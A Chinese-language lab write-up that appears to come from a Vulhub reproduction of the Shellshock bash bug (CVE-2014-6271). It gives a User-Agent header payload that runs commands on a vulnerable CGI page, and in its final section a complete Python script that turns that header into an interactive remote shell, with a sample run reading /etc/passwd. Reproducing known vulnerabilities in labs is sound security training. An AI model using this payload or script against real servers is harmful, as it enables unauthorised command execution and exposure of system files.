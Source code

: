 # Shellshock 破壳漏洞 CVE-2014-6271

## 漏洞描述

bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。核心的原因在于在输入的过滤中没有严格限制边界，没有做合法化的参数判断。

此前已验证Red Hat、 CentOS 、Ubuntu 、Fedora 、Amazon Linux 、OS X 10.10均拥有存在CVE-2014-6271漏洞的bash版本，以bash在各主流操作系统的广泛应用，此漏洞的影响范围包括但不限于大多数应用bash的Unix、Linux、Mac OS X，针对这些操作系统管理下的数据存在高危威胁。

## 环境搭建

Vulhub执行如下命令：

```
docker-compose up -d
```

服务启动后，有两个页面`http://your-ip:8080/victim.cgi`和`http://your-ip:8080/safe.cgi`。其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面。

## 漏洞复现

将payload附在User-Agent中访问victim.cgi：

```
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
```

命令成功被执行：

![image-20220303150635558](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203031506623.png)

同样的数据包访问safe.cgi，不受影响：

![image-20220303150542827](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203031505938.png)

## 漏洞EXP

```python
#!/usr/bin/python

# Successful Output:
# # python shell_shocker.py <VulnURL>
# [+] Attempting Shell_Shock - Make sure to type full path
# ~$ /bin/ls /
# bin
# boot
# dev
# etc
# ..
# ~$ /bin/cat /etc/passwd

from __future__ import print_function
from future import standard_library
standard_library.install_aliases()
from builtins import input
import sys, urllib.request, urllib.error, urllib.parse

if len(sys.argv) != 2:
        print("Usage: shell_shocker <URL>")
        sys.exit(0)

URL=sys.argv[1]
print("[+] Attempting Shell_Shock - Make sure to type full path")

while True:
        command=input("~$ ")
        opener=urllib.request.build_opener()
        opener.addheaders=[('User-agent', '() { foo;}; echo Content-Type: text/plain ; echo ; '+command)]
        try:
                response=opener.open(URL)
                for line in response.readlines():
                        print(line.strip())
        except Exception as e: print(e)

```

